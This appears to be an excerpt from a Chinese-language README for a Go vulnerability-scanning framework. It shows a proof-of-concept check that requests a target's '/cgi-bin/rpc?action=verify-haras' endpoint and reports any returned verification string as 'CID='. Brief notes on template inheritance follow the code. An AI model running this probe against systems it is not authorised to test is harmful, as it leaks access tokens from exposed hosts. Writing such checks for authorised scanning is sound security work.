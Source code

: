```go
	pocResult.Status = false
	headers := self.GetInitPocHeaders()

	resp := self.HttpGet(self.AddUri(self.Params.Target, "/cgi-bin/rpc?action=verify-haras"), headers)
	if resp.Err != nil {
		return
	}
	jr := new(jsonResult)
	err := json.Unmarshal([]byte(resp.Body), jr)
	if err != nil {
		pocResult.Err = err
		return
	}
	if jr.VerifyString != "" {
		pocResult.Status = true
		pocResult.Messages = "CID=" + jr.VerifyString
	}
	//"{\"success\":false,\"msg\":\"Verification failure\"}"

	return
}
```

由于结构体继承了`poc_templates.PocTemplate`,可以使用父类的方法来处理（PS：这里只是引用了其他语言里基于对象的说法，go里没有对象）

![image-20220505100327178](README.assets/image-20220505100327178.png)

self.Params里有需要的各种请求参数。

![image-20220505100401547](README.assets/image-20220505100401547.png)
